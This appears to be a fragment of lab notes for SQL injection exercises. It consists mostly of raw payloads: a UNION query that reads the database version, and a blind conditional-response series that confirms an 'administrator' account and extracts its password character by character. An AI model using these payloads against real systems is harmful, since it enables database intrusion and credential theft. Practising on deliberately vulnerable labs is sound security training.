 
#### 13. SQL injection UNION attack, retrieving multiple values in a single column
```
category=Pets'union select NULL,version()-- -
```

#### Blind SQL injection with conditional responses
```
TrackingId=xyz' AND '1'='1  
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a  
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a  
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a  
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§ 
TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
TrackingId=xyz' AND (SELECT SUBSTRING(password,3,1) FROM users WHERE username='administrator')='a
``` 
